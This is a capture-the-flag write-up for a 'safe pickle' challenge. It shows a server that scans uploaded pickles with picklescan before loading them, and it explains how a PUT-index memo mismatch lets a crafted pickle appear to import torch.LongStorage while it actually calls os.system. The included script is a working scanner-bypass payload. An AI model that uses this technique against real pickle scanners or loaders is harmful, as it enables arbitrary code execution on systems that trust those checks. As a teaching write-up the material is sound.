 # safe pickle

## challenge

```dockerfile
FROM python:3.11-alpine AS app

RUN pip install picklescan==0.0.12

FROM pwn.red/jail
COPY --from=app / /srv
COPY ./server.py /srv/app/run
ENV JAIL_MEM=32M
```

```py
#!/usr/bin/env python3
from picklescan.scanner import scan_pickle_bytes, SafetyLevel
import io, pickle, base64

inp = input("Base64 encoded pickle: ")
pkl = base64.b64decode(inp)
result = scan_pickle_bytes(io.BytesIO(pkl), 1337)
if (
    result.scan_err
    or result.issues_count > 0
    or not all([g.safety == SafetyLevel.Innocuous for g in result.globals])
):
    print("Dangerous pickle!")
    exit()

pickle.loads(pkl)
```

## solution

(writeup mostly taken from maple3142, see his github repo with challs)

The [way](https://github.com/mmaitre314/picklescan/blob/40001cd1caa9e041b1bce1b80f3707056cd8be52/src/picklescan/scanner.py#L193) picklescan handles memo doesn't look at the argument, so it is possible to have a different memo and use `STACK_GLOBAL` to bypass allowlist checking.

It uses len(memo) even when the opcode is `PUT`. If we use `PUT` with argument `1` and there are 0 things in the memo, the real unpickler will have the top object in `1` but this fake simulated unpickler/pickle validator will have it at `0`. We can make it think we are importing something that is ok when it is not ok.

```python
import pickle, base64

pkl = b''.join([
    pickle.UNICODE + b'os\n',
    pickle.PUT + b'2\n',  # {2: "os"} for real, {0: "os"} for picklescan
    pickle.POP,
    pickle.UNICODE + b'system\n',
    pickle.PUT + b'3\n',  # {2: "os", 3: "system"} for real, {0: "os", 1: "system"} for picklescan
    pickle.POP,
    pickle.UNICODE + b'torch\n',
    pickle.PUT + b'0\n',  # {2: "os", 3: "system", 0: "torch"} for real, {0: "os", 1: "system", 2: "torch"} for picklescan
    pickle.POP,
    pickle.UNICODE + b'LongStorage\n',
    pickle.PUT + b'1\n',  # {2: "os", 3: "system", 0: "torch", 1: "LongStorage"} for real, {0: "os", 1: "system", 2: "torch", 3: "LongStorage"} for picklescan
    pickle.POP,

    pickle.GET + b'2\n',
    pickle.GET + b'3\n',
    pickle.STACK_GLOBAL,  # we will end up getting os.system on real but picklescan will think we are getting torch.LongStorage

    pickle.MARK,
    pickle.UNICODE + b'cat flag.txt\n',
    pickle.TUPLE,

    pickle.REDUCE
]) + b'.'
print(base64.b64encode(pkl).decode())
```
